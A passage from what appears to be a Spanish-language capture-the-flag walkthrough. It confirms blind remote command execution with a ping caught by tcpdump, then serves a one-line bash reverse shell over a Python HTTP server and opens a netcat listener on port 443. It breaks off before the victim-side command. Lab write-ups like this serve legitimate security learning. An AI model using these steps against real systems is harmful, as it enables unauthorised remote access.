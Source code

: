 Vemos que al ejecutarlo nos dice que el output del comando no se puede ver, podemos probar si de verdad tenemos ejecución enviandonos un ping y estando a la escucha de recibirlo:

```
tcpdump -i tun0 icmp -n
```

![gobuster](Imagenes/23.png)

Vemos que si es cierto que tenemos ejecución remota de comandos, por lo que podemos tratar de tener un servicio http con python donde se comparta una reverse shell y que la máquina víctima haga una petición por GET a dicho recurso:

En la máquina atacante creamos una reverse shell de una linea en bash:

![gobuster](Imagenes/24.png)

Lo compartimos con python:

```
python -m http.server 80
```

Y nos ponemos en escucha con netcat por el puerto 443:

```
netcat -lvnp 443
```

En la máquina víctima hacemos lo siguiente:
